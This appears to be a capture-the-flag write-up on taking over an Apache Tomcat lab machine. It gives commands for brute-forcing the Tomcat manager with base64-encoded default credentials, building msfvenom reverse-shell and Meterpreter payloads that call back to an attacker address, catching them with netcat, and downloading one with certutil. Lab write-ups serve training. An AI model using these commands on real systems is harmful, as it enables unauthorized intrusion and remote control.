

# Enumeration
- we use nmap for enumeration:
- we found a default webpage (apache tomcat):
# Exploitation
- Using burpsuite we find that the password is base64 encoded:![[2024-01-30_17-04.png]
- We can use decoder to decode bas64 and we find that it is in a username:password format
-  To do brute forcing we need to convert to Base64:
- To do this for all passwords we need a bash command `for cred in $(cat tomcat_passwds.txt); do echo -n $cred | base64 ; done `' where tomcat_passwds.txt has all default passwords
- Use burpsuite to bruteforce: 
- We found 2 matches: 
- These are the passwords required: 
- We create a msfvenom payload with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f war > reverse.war` then deploy using the previously found credentials.
- listening on netcat using `nc -nlvp 4444` we get an root shell:
## Metasploit
- use `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f exe > meterpreter.exe` for creating the  payload
- listen using exploit/multi/handler
- To upload the payload host a http server with `python -m SimpleHTTPServer 80` then use `certutil -urlcache -f http://10.10.14.25/Downloads/Jerry/meterpreter.exe c:\users\administrator\desktop\flags\meterpreter.exe` in the shell and execute the meterpreter.exe file.
- Then we get a meterpreter shell
`